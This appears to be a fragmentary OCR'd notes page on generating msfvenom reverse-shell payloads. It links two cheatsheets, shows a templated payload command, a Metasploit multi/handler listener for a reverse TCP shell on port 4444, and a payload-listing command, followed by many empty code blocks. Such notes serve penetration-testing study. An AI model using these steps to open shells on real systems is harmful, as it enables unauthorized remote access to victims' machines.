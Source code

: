 https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom

https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/

```
msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>
```
```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > grep yes options
   LHOST                   yes       The listen address (an interface may be specified)                                              
   LPORT  4444             yes       The listen port
```

```
msfvenom -l payloads
```

```
msfvenom -l payloads |
```

```

```

```

```

```

```

```

```

```

```

```

```
